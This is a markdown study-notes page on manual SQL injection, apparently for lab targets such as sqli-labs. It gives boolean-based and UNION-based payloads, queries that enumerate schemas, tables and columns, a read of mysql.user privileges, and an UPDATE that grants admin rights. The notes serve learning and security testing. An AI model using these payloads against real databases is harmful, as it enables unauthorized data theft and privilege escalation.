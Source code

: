 # Manual SQL
This id parameter is attached to a certain username (login name) and password which are being chosen from the database.  
This how it would look in terms of SQL language:

`select login_name, password from table where id=` 

![](Manual%20SQL/image.png)

Update DB
---------

```text-plain
update user set is_admin=1 where lower_name="admin1";
```

to modify a value of column `is_admin` to 1 in the table `user`, and use `where` to specify it to modify only one field.

Boolean based
-------------

Now, fix the query by putting `--+`

At this point, it is important to understand that in SQL language we can actually use =, <, > to compare the values. 

Try putting different comparison values in your link

`10.10.77.93/sqli-labs/Less-8/?id=1' OR 1 < 2 --+` = True

or `10.10.77.93/sqli-labs/Less-8/?id=1' OR 1 > 2 --+` = False

`id=1' AND (ascii(substr((select database()),1,1))) = 115 --+` 

Union-based SQLi
----------------

union-based SQLi is a SQL injection technique that leverages the UNION SQL operator to combine the results of two or more SELECT statements into a single result which is then returned as part of the HTTP response.

The UNION keyword lets you execute one or more additional SELECT queries and append the results to the original query. For example:

determine the number of columns you can retrieve.

`SELECT 1, 2 FROM usernames UNION SELECT 1, 2 FROM passwords`

![](Manual%20SQL/1_image.png) ![](Manual%20SQL/2_image.png)

Finally, we can start getting some valuable information. Simply replace some null values with SQL keywords to get information about the database.   
Here's a small list of thing you'd want to retrieve:

1\. database()

2\. user()

3\. @@version

4\. username

5\. password

6\. table\_name

7\. column\_name

FIle write
----------

`" union all select 1,2,3,group_concat(user,0x3a,file_priv) from mysql.user -- -`

adjust the number of columns

Methodology for manual SQLI:
----------------------------

[https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/](https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/) 

retrieve database name:

```text-plain
1 UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata --
```

Retrieve table names::

```text-plain
' UNION SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema="webapp" '
```

Retrieve column names:

```text-plain
' UNION SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="queue" '
```